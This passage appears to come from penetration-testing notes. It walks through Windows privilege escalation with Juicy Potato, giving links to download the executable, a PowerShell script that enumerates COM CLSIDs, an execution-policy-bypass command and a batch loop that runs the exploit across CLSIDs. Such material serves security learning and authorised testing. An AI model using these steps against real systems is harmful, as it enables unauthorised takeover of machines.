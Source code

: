 To escalate, we need to upload the Juicy Potato executable to the compromised machine. A compiled version is available at the tool’s GitHub account:

- [JuicyPotato](https://github.com/ohpe/juicy-potato/releases/download/v0.1/JuicyPotato.exe)

- [JuicyPotato version x86](https://github.com/ivanitlearning/Juicy-Potato-x86/releases)

The image below shows a way to upload such exploit to the vulnerable machine via powershell:
![Description](https://miro.medium.com/max/875/1*-E7A_YyZvb228Fo-CHUJ4g.png)

Menu to execute the JuicyPotato executable:
![Description](https://miro.medium.com/max/875/1*b90DNHHOBoKJEyIitAmyxw.png)

To run the tool, we need a port number for the COM server and a valid CLSID — you can either use the provided list by the tool authors based on the version of the system or run the below PowerShell command to extract the CLSID of the current system.

```powershell
New-PSDrive -Name HKCR -PSProvider Registry -Root HKEY_CLASSES_ROOT | Out-Null
$CLSID = Get-ItemProperty HKCR:\clsid\* | select-object AppID,@{N='CLSID'; E={$_.pschildname}} | where-object {$_.appid -ne $null}
foreach($a in $CLSID)
{
Write-Host $a.CLSID
}
```

^5756e5

Execution of the previous command:
![](https://miro.medium.com/max/875/1*SBFH9QAnkjq4t1UXstTKGw.png)

Save the Powershell code in a file and run it. Save the output in a file.

```powershell
powershell -executionpolicy bypass -file GetCLSID.ps1 > clsid.txt
```

Run the PS script and save the output

![](https://miro.medium.com/max/875/1*uqLMXFtWZ9F3hls8YTmVRA.png)

In order to execute this command successfully, we can enumerate valid CLSIDs to be used with JuicyPotato.exe, to do so the following script can aid: [test_clsid.bat](http://ohpe.it/juicy-potato/Test/test_clsid.bat)

```batch
@echo off
:: Starting port, you can change it
set /a port=10000
SETLOCAL ENABLEDELAYEDEXPANSION

FOR /F %%i IN (CLSID.txt) DO (
   echo %%i !port!
   juicypotato.exe -z -l !port! -c %%i >> result.log
   set RET=!ERRORLEVEL!
   :: echo !RET!
   if "!RET!" == "1"  set /a port=port+1
)

```
